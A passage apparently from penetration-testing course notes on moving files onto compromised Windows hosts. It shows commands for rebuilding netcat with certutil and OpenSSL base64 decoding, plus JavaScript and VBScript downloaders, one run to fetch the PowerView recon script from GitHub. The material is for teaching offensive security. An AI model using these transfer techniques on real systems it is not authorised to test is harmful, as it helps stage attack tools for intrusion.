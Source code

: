 ````bash
Find:\r
Replace:" >> nc.txt\r
````
[netcat](https://academy.hackthebox.com/storage/modules/24/find_replace2.png)

If the last line has an **echo "** on its own, remove it.

Next, copy all the text, and paste it into the shell, pressing enter if needed on the last command. This time, use the -decode certutil switch to convert the base64 text back to binary.

````powershell
certutil.exe -decode nc.txt nc.exe
cmd /c "nc.exe -h 2>&1"
````

## OpenSSL base64
If OpenSSL is available on the target system, this can also be used to encode and decode the data in place of certutil.

### Encryption
````bash
openssl.exe enc -base64 -in nc.exe -out nc.txt
````
### Decryption
````powershell
openssl.exe enc -base64 -d -in nc.txt -out nc.exe
````
## JavaScript
The following JavaScript, based on this post, can be used.

````javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
````
It can be executed as follows.

````powershell
cscript /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
````
## VBScript
The following VBScript, based on this post can be used.

````vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
````
It can be executed as follows.
